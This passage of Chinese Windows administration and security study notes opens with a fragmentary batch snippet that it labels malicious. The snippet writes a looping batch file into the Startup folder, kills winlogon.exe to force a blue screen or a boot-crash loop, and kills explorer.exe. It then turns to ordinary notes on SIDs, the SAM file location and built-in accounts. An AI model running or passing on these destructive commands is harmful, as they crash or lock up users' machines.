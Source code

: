 ```powershell

REM 在开始启动中生成恶意批处理
:2
shutdown -a
echo :a >> "%userprofile%\开始菜单\程序\启动\hhh.bat"
echo start >> "%userprofile%\开始菜单\程序\启动\hhh.bat"
echo goto >> "%userprofile%\开始菜单\程序\启动\hhh.bat"
goto 0

:3
exit

-----针对xp/win2003命令,强制杀死登录命令，导致蓝屏，可以将其放入启动，导致开机蓝屏重启循环
ntsd -c q -pn winlogon.exe
-----杀死桌面进程
taskkill /im explorer.exe /f >nul 2>nul
REM 卡5秒
ping -n 5 127.0.0.1 >nul 2>nul
start c:\windows\explorer.exe

```

### 用户与组管理

Windows服务器：win2000，win2003，win2008

Linux服务器：Redhat（收费，售后服务费），CentOS

每个账户都有自己唯一的SID

```powershell
SID由2部分组成
S到最后是机器，UID=500表示管理员，普通用户从1000开始
Linux的root是0
```

windows上账户密码存储位置C:\windows\system32\config\SAM

服务器密码最长有效期42天

密码字典工具：将用户常用的参数输入，生成字典。

**内置账户**

1.**给别人使用的账户**

administrator	#管理员

guest		#来宾账户

2.**系统账户**

> system		#系统账户，最高权限
local services  #本地服务账户	权限普通
network services	#网络服务账户   权限普通

**配置文件**
